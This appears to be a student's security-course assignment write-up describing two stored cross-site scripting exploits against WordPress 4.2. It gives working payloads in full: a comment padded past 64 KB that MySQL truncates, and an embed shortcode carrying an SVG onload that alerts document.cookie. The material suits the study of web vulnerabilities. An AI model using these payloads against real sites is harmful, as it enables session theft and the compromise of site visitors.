 # CSU
CyberSecurity University Assignments

Exploit 1

Wordpress version: 4.2

Time: 2 hours

Issue

If the text entered into the comment field exceeds 64kb, the input gets truncated in the MySQL database.  This enables XSS capability.

1.  Use commnad with over 64kb worth of chartacters attached:  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>

2.  Entered data into comments field on WordPress page

3.  Command executed, in this case, a 'Hello World' pop up alert.

<img src="https://github.com/norcaldre/CSU/blob/master/Exploit1.gif?raw=true" width="800">


Exploit 2

WordPress version 4.2

Time: 1 hour

Issue 

Contributers can embed a YouTube link with code in the link to execute an XSS attack.

1.  Grab embeded video link from YouTube

2.  Created embeded link for WordPress site with link for YouTube video and XXS code for an alert.

[embed src='https://www.youtube.com/embed/7uf7Qn1uFJs\x3csvg onload=alert(document.cookie)\x3e'][/embed]

3.  Place code on vulbnerable page. 

<img src="https://github.com/norcaldre/CSU/blob/master/Exploit2.gif?raw=true" width="800">
